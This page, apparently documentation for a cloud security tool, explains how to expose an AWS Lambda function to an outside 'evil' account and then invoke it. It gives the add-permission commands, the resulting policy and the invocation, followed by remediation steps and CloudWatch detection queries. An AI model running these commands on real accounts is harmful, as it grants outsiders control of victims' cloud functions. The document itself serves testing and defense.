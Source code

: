 # Lambda Function Cross-Account Access

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

AWS Lambda Permission Policies (aka resource-based policies) can allow functions to be invoked from AWS accounts other than the one it is running in.

Compromised Lambda functions are a known attack path for [Privilege Escalation](https://resources.infosecinstitute.com/topic/cloudgoat-walkthrough-lambda-privilege-escalation/) and other nefarious use cases. While the impact often depends on the context of the Lambdas itself, Lambda functions often modify AWS infrastructure or have data plane access. Abusing these capabilities could compromise the confidentiality and integrity of the resources in the account.

Existing Exploitation tools such as [Pacu](https://github.com/RhinoSecurityLabs/pacu) have capabilities that help attackers exploit compromised Lambda functions. Pacu, for example, has modules that leverage Lambda functions to [backdoor new IAM roles](https://github.com/RhinoSecurityLabs/pacu/tree/master/modules/lambda__backdoor_new_roles), to [modify security groups](https://github.com/RhinoSecurityLabs/pacu/tree/master/modules/lambda__backdoor_new_sec_groups), and to [create new IAM users](https://github.com/RhinoSecurityLabs/pacu/tree/master/modules/lambda__backdoor_new_users). As such, Lambda functions are high-value targets to attackers, and existing exploitation frameworks such as Pacu and others increase the likelihood for abuse when a Lambda function is compromised.

## Steps to Reproduce

* **Option 1**: To expose the Lambda function using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service lambda --name test-resource-exposure
```

* **Option 2**: To expose the Lambda Function using AWS CLI, run the following from the victim account:

```bash
export EVIL_PRINCIPAL_ACCOUNT=999988887777

aws lambda add-permission \
    --function-name test-resource-exposure \
    --action lambda:* \
    --statement-id Endgame \
    --principal $EVIL_PRINCIPAL_ACCOUNT
```

* To view the contents of the exposed resource policy, run the following:

```bash
aws lambda get-policy --function-name test-resource-exposure
```

* Observe that the contents of the exposed resource policy match the example shown below.

## Example

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "Endgame",
      "Effect": "Allow",
      "Principal": {
        "AWS": "999988887777"
      },
      "Action": [
        "lambda:*"
      ],
      "Resource": "arn:aws:lambda:us-east-1:111122223333:test-resource-exposure"
    }
  ]
}
```

## Exploitation

* Authenticate to the `evil` account (In this example, `arn:aws:iam::999988887777:user/evil`)

* Run the following command to invoke the function in the victim account:

```bash
export VICTIM_LAMBDA=arn:aws:lambda:us-east-1:111122223333:test-resource-exposure
aws lambda invoke --function-name $VICTIM_LAMBDA
```

* Observe that the output resembles the following:

```json
{
    "ExecutedVersion": "$LATEST",
    "StatusCode": 200
}
```

## Remediation

* **Trusted Accounts Only**: Ensure that cross-account Lambda functions allow access only to trusted accounts to prevent unknown function invocation requests
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to Lambda Functions. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-lambda) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your Lambda Functions**: Tightly control access to the following IAM actions:
  - [lambda:AddPermission](https://docs.aws.amazon.com/lambda/latest/dg/API_AddPermission.html): _Grants permission to give an AWS service or another account permission to use an AWS Lambda function_
  - [lambda:GetPolicy](https://docs.aws.amazon.com/lambda/latest/dg/API_GetPolicy.html): _Grants permission to view the resource-based policy for an AWS Lambda function, version, or alias_
  - [lambda:InvokeFunction](https://docs.aws.amazon.com/lambda/latest/dg/API_Invoke.html): _Grants permission to invoke an AWS Lambda function_
  - [lambda:ListFunctions](https://docs.aws.amazon.com/lambda/latest/dg/API_ListFunctions.html): _Grants permission to retrieve a list of AWS Lambda functions, with the version-specific configuration of each function_
  - [lambda:RemovePermission](https://docs.aws.amazon.com/lambda/latest/dg/API_RemovePermission.html): _Grants permission to revoke function-use permission from an AWS service or another account_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='lambda.amazonaws.com' and eventName like 'AddPermission'
```

The following query detects policy modifications which include the default IOC string:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='lambda.amazonaws.com' and (eventName like 'AddPermission' and requestParameters.statementId='Endgame')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [aws lambda add-permission](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/lambda/add-permission.html)
* [Access Analyzer support for AWS Lambda Functions](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-lambda)
